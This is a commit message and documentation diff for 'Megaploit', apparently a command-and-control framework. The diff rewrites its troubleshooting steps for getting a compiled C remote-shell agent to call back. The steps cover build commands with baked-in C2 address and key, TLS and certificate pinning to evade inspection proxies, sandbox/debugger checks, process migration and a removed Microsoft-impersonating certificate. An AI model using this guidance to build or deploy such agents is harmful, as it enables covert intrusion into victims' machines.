

Before and after one commit to Josefifir/Megaploit, an MkDocs documentation site: the page built from docs/TROUBLESHOOTING.md, in a window 1280 px wide and 1400 px high, scrolled down 4418 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
fix: C agent connection stack -- TLS auto-cert, key sync, correct source list, -liphlpapi
Problem
-------
The C agent never established a session with the Megaploit C2 server.
Four independent bugs each independently caused every connection to fail:

1. TLS never auto-enabled (megaploit/server/cli.py)
   _start_listener() only enabled TLS with --tls/--cert flags. Without them
   the raw socket received the agent's TLS ClientHello, read it as HMAC,
   logged auth_failed on every attempt.
   Fix: always auto-generate loot/tls/megaploit.crt on startup.

2. crs_build compiled wrong source files (plugins/c_remote_shell.py)
   _client_srcs listed plain .c files instead of *_obf.c variants.
   sandbox.c and sleep_obf.c also missing.
   Fix: source list updated to mirror Makefile CLIENT_SRCS exactly.

3. secret.key mismatch -- dual-location sync missing (plugins/c_remote_shell.py)
   Key written only to ./secret.key; C-remote-shell/secret.key kept stale key.
   Fix: key written atomically to both paths.

4. MinGW link missing -liphlpapi (plugins/c_remote_shell.py)
   Required by GetAdaptersInfo etc. in handlers_system.c.
   Fix: added to MinGW libs list.

Also
----
- listener.py: LISTEN/ACCEPTED/REJECTED/BLOCKED audit log entries
- docs/QUICKSTART.md: Section 4 rewritten
- docs/TROUBLESHOOTING.md: Section 4 expanded to 10 steps
- C-remote-shell submodule: bumped to 9f705ac (PR #10)
- tests/test_meterp.py: GPU-safe pyautogui mock

Companion PR: https://github.com/Levon-Volodin/C-remote-shell/pull/10

````diff
--- a/docs/TROUBLESHOOTING.md
+++ b/docs/TROUBLESHOOTING.md
@@ -221,38 +221,68 @@
 
 ## 4. No Session After Running Payload
 
-This is the most common issue. Work through these checks in order:
+This is the most common issue. Work through these checks in order.
 
 ### Step 1 — Confirm Megaploit is actually listening
 
 ```bash
-# In another terminal
-sudo ss -tlnp | grep 4444
-# Should show:  LISTEN  0  128  0.0.0.0:4444
+# Linux / macOS
+ss -tlnp | grep 4444
+# Should show:  LISTEN  0  10  0.0.0.0:4444
+
+# Windows (PowerShell)
+netstat -ano | Select-String ":4444"
 ```
 
-If nothing shows, Megaploit is not running or crashed. Restart it.
+If nothing shows, Megaploit is not running or crashed. Restart it with:
+
+```bash
+python server.py -lh <your-ip> -p 4444
+```
 
 ---
 
-### Step 2 — Confirm the target can reach your machine
+### Step 2 — Check the audit log
 
-From the **target**, try to ping or connect to your attacker IP:
+The audit log at `loot/audit.log` records every connection attempt. Look at the
+last few lines immediately after running the agent:
+
+```bash
+# Linux / macOS
+tail -20 loot/audit.log
+
+# Windows PowerShell
+Get-Content loot\audit.log -Tail 20
+```
+
+| What you see | Meaning |
+|---|---|
+| `LISTEN bind=0.0.0.0:4444` | Server started correctly |
+| `ACCEPTED ip=... session=N` | ✅ Agent connected — run `sessions` in the console |
+| `REJECTED reason=auth_failed` | **Key mismatch** — see Step 5 |
+| `REJECTED reason=tls_error` | TLS handshake failed — see Step 6 |
+| `BLOCKED reason=not_in_allowlist` | Agent IP is not in `--allow-ip` list |
+| Nothing after `LISTEN` | TCP never reached the server — see Step 3 |
+
+---
+
+### Step 3 — Confirm the target can reach your machine
+
+From the **target**, test connectivity:
 
 ```bash
 # From Linux target
-ping 192.168.1.50
 nc -zv 192.168.1.50 4444   # should say "succeeded"
 
 # From Windows target (PowerShell)
 Test-NetConnection -ComputerName 192.168.1.50 -Port 4444
 # TcpTestSucceeded: True  ← good
-# TcpTestSucceeded: False ← firewall blocking
+# TcpTestSucceeded: False ← firewall or wrong IP/port
 ```
 
 ---
 
-### Step 3 — Check your firewall
+### Step 4 — Check your firewall
 
 ```bash
 # Kali / Ubuntu — allow incoming on the listener port
@@ -265,13 +295,61 @@
 
 ---
 
-### Step 4 — Confirm LHOST and LPORT in the payload match your server
+### Step 5 — Key mismatch (`auth_failed` in audit log)
 
-If you generated the payload with `LHOST=192.168.1.50` but later changed your IP or moved to a different network, the payload still tries to reach the old address. **Regenerate the payload** with the correct LHOST.
+The HMAC authentication uses a shared 32-byte secret. Both sides must have the
+**identical** key.
+
+**For the C agent (external build):**
+
+1. The key is embedded in the binary at build time via `SECRET_KEY=<hex>`.
+2. The server reads `secret.key` from the repo root at startup.
+3. They must contain the same hex string.
+
+**Fix:**
+
+```bash
+# From inside C-remote-shell/
+python tools/gen_key.py
+# Copy the printed hex to secret.key in the Megaploit repo root:
+echo -n "<hex>" > ../secret.key       # Linux / macOS
+Set-Content -NoNewline ..\secret.key "<hex>"  # Windows PowerShell
+
+# Rebuild the agent with the same key:
+mingw32-make C2_IP=<your-ip> C2_PORT=4444 SECRET_KEY=<hex>
+```
 
 ---
 
-### Step 5 — Check if you're behind NAT (home router / cloud VM)
+### Step 6 — TLS handshake failure (`tls_error` in audit log)
+
+The C agent always performs a SChannel TLS handshake before sending anything.
+The server must present a TLS certificate or the agent's `ClientHello` is
+misread as an HMAC response, which always fails.
+
+The server auto-generates a certificate at `loot/tls/megaploit.crt` on first
+start. If those files are corrupt or missing:
+
+```bash
+# Delete and let the server regenerate them
+rm -rf loot/tls/
+python server.py -lh <your-ip> -p 4444
+```
+
+---
+
+### Step 7 — Confirm C2_IP and C2_PORT in the binary match the server
+
+The IP and port are baked into the binary at compile time. If your server's IP
+changed since the last build, **rebuild** with the correct address:
+
+```bash
+mingw32-make C2_IP=<new-ip> C2_PORT=4444 SECRET_KEY=<hex>
+```
+
+---
+
+### Step 8 — Check if you're behind NAT (home router / cloud VM)
 
 If you are behind a NAT router:
 
@@ -281,21 +359,34 @@
 ```bash
 # Find your public IP
 curl ifconfig.me
-
-# On your router: forward TCP 4444 → 192.168.1.50:4444
 ```
 
 Or use a **VPS** as the listener (no NAT issues):
 
 ```bash
 # On VPS with public IP 203.0.113.10
-python3 -m megaploit --host 0.0.0.0 --port 4444
-# Generate payload with LHOST=203.0.113.10
+python server.py -lh 203.0.113.10 -p 4444
+# Build the agent with C2_IP=203.0.113.10
 ```
 
 ---
 
-### Step 6 — Check the payload actually ran
+### Step 9 — C agent: sandbox check silently exiting
+
+The C agent checks 10 sandbox/VM/debugger heuristics and exits silently if any
+fire. To bypass all of them during testing, build with `DBG=1`:
+
+```bash
+# from C-remote-shell/
+mingw32-make C2_IP=<your-ip> C2_PORT=4444 DBG=1
+```
+
+`DBG=1` also disables the 15–25 s startup delay and auto-migration, so the
+agent connects immediately without relocating into another process.
+
+---
+
+### Step 10 — Check the payload actually ran
 
 On the target, check for errors:
 
@@ -637,25 +727,56 @@
 
 ---
 
-## 12. SSL / HTTPS Transport Issues
+## 12. TLS / HTTPS Transport Issues
 
-### `SSL: CERTIFICATE_VERIFY_FAILED` on the target
+### The C agent never connects — `tls_error` in audit log
 
-The payload is checking the server certificate and failing. Use `--ssl-no-verify` for self-signed certs in a lab:
+The C agent performs a SChannel TLS handshake before any authentication. The
+server **must** have TLS enabled or the handshake fails immediately.
+
+Starting the server without any flags now enables TLS automatically:
 
 ```bash
-python3 -m megaploit --port 443 --ssl --ssl-no-verify
+python server.py -lh <your-ip> -p 4444
+# Prints: [+] TLS auto-cert (required for C agent) → loot/tls/megaploit.crt
+```
+
+If the cert files are corrupt, delete them and let the server regenerate:
+
+```bash
+rm -rf loot/tls/
+python server.py -lh <your-ip> -p 4444
 ```
 
 ---
 
-### Generating a self-signed certificate
+### Bringing your own certificate
 
 ```bash
-openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes \
-  -subj "/CN=updates.microsoft.com"
+python server.py -lh <your-ip> -p 4444 --cert cert.pem --key key.pem
+```
 
-python3 -m megaploit --port 443 --ssl --ssl-cert cert.pem --ssl-key key.pem
+To generate a self-signed certificate manually:
+
+```bash
+openssl req -x509 -newkey rsa:3072 -keyout key.pem -out cert.pem -days 365 -nodes \
+  -subj "/CN=<your-ip>"
+
+python server.py -lh <your-ip> -p 4444 --cert cert.pem --key key.pem
+```
+
+---
+
+### Optional: pin the server certificate in the C agent
+
+To reject SSL-inspection proxies, embed the cert's SHA-256 fingerprint at build
+time:
+
+```bash
+openssl x509 -in loot/tls/megaploit.crt -noout -fingerprint -sha256
+# prints: SHA256 Fingerprint=AA:BB:CC:... — strip colons to get 64 hex chars
+
+mingw32-make C2_IP=<ip> SECRET_KEY=<hex> C2_CERT_PIN=<64-hex-fingerprint>
 ```
 
 ---
````
Also changed, not shown: other parts of docs/TROUBLESHOOTING.md (+0 -1 lines), docs/QUICKSTART.md (+31 -21 lines), .github/MEGAPLOIT_PR_DESCRIPTION.md (added), 5 other files.
